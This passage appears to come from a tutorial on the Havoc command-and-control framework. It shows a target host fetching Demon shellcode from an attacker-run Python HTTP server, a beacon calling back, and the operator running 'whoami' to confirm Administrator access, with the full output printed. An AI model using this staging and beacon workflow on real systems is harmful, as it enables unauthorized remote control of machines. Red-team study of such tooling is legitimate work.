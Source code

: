 ![](/assets/imgs/havoc-c2/Pasted image 20240218211927.png)

Looking back at our Python HTTP server, we will notice a request for our shellcode:

```
➜  SquidGuard python3 -m http.server 8001
Serving HTTP on 0.0.0.0 port 8001 (http://0.0.0.0:8001/) ...
10.250.0.30 - - [18/Feb/2024 05:55:59] "GET /demon.x64.bin HTTP/1.1" 200 -
```

As well as a beacon in Havoc:

![](/assets/imgs/havoc-c2/Pasted image 20240218212030.png)

Fantastic! We have our first beacon!

# Getting to know all about Havoc's commands

In order to interact with the beacon we just received, simply double click on it. Upon doing so, a prompt allowing you to send commands to the beacon will appear at the bottom.

![](/assets/imgs/havoc-c2/Pasted image 20240218212219.png)

Let's verify that our beacon is alive by sending a simple `whoami` command.

```
18/02/2024 06:11:42 [Neo] Demon » whoami

[*] [852A3604] Tasked demon to get the info from whoami /all without starting cmd.exe

[+] Send Task to Agent [31 bytes]
[+] Received Output [5665 bytes]:

UserName SID

====================== ====================================

STANDALONE01\Administrator S-1-5-21-3039253672-3550976879-3235238042-500
GROUP INFORMATION Type SID Attributes

================================================= ===================== ============================================= ==================================================

STANDALONE01\None Group S-1-5-21-3039253672-3550976879-3235238042-513 Mandatory group, Enabled by default, Enabled group,
Everyone Well-known group S-1-1-0 Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Local account and member of Administrators groupWell-known group S-1-5-114 Mandatory group, Enabled by default, Enabled group,
BUILTIN\Administrators Alias S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner,
BUILTIN\Users Alias S-1-5-32-545 Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\INTERACTIVE Well-known group S-1-5-4 Mandatory group, Enabled by default, Enabled group,
CONSOLE LOGON Well-known group S-1-2-1 Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Authenticated Users Well-known group S-1-5-11 Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\This Organization Well-known group S-1-5-15 Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\Local account Well-known group S-1-5-113 Mandatory group, Enabled by default, Enabled group,
LOCAL Well-known group S-1-2-0 Mandatory group, Enabled by default, Enabled group,
NT AUTHORITY\NTLM Authentication Well-known group S-1-5-64-10 Mandatory group, Enabled by default, Enabled group,
Mandatory Label\High Mandatory Level Label S-1-16-12288 Mandatory group, Enabled by default, Enabled group,
```